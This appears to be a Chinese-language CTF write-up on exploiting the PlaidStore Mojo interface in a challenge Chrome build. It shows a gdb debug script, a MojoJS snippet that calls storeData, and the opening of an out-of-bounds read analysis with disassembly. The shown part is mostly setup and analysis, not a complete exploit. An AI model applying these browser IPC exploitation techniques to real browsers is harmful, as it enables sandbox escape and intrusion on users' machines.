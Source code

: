 ### 调试

先说说调试的问题，因为`chrome`是多进程程序，我们的目标是对`mojo`通信的`receiver`端（`browser`进程进行利用），因此主要是对启动的父进程进行调试。

调试浏览器时，最好在本地开一个web服务，而不是让浏览器直接访问本地html文件，因为这其中访问的协议是不一样的。浏览器访问web服务的协议是`http`，而访问本地文件的协议是`file`。

因此先在本地对应的`exp`文件目录下（需要将`mojo_js`路径和`pwn.html`放在一级目录下）启动一个`web`服务：

```bash
python -m SimpleHTTPServer
```

`debug.sh`内容如下。在启动的参数中加入了`--user-data-dir`参数是为了在`terminal`中输出对应的`console.log`信息。

```bash
# set file and read symbol
file ./chrome
# set start parameter
set args --headless --disable-gpu --remote-debugging-port=1338 --user-data-dir=./userdata --enable-blink-features=MojoJS http://127.0.0.1:8000/pwn.html
# set follow-fork-mode
set follow-fork-mode parent
# just run
r
```

`gdb -x debug.sh`即可启动调试。

因为开启了`mojo js binding`，因为可以直接在`render`端使用`js`代码来进行通信，示例如下所示：

```html
<script src="./mojo/public/js/mojo_bindings.js"></script>
<script src="./third_party/blink/public/mojom/plaidstore/plaidstore.mojom.js"></script>
<script>
  	async function test() { 
  		let p = blink.mojom.PlaidStore.getRemote(true);
  		await(p.storeData("xxxxx", new Uint8Array(0x28).fill(0x41)));
    }
  	test()
</script>
```

头两句是要引入的头文件，`blink.mojom.PlaidStore.getRemote`则是对`remote`端进行绑定。使用`await`的理由是因为是从`render`进程发送给`browser`进程，需要等待，所以要使用`await`，不然可能会获取不到数据。

### oob 越界读利用

首先搞清楚越界读读的目标是什么，就要搞清楚越界读所发生的区域在哪里，这些区域存储了些什么有用的数据。

因为`data_store_`指针存储在`PlaidStoreImpl`对象当中，所以先看`PlaidStoreImpl`的创建以及调用`StoreData`函数之后的内存布局。

断点下在`PlaidStoreImpl::Create`函数，看`PlaidStoreImpl`对象申请的空间，

```asm
	 0x5555591ac4a3    mov    edi, 0x28
 ► 0x5555591ac4a8    call   0x55555ac584b0 <0x55555ac584b0>
 
   0x5555591ac4ad    lea    rcx, [rip + 0x635e2ec]
   0x5555591ac4b4    mov    qword ptr [rax], rcx      ; 赋值虚表指针
   0x5555591ac4b7    mov    qword ptr [rax + 8], rbx  ; 赋值render_frame_host指针
   0x5555591ac4bb    lea    rcx, [rax + 0x18]
```
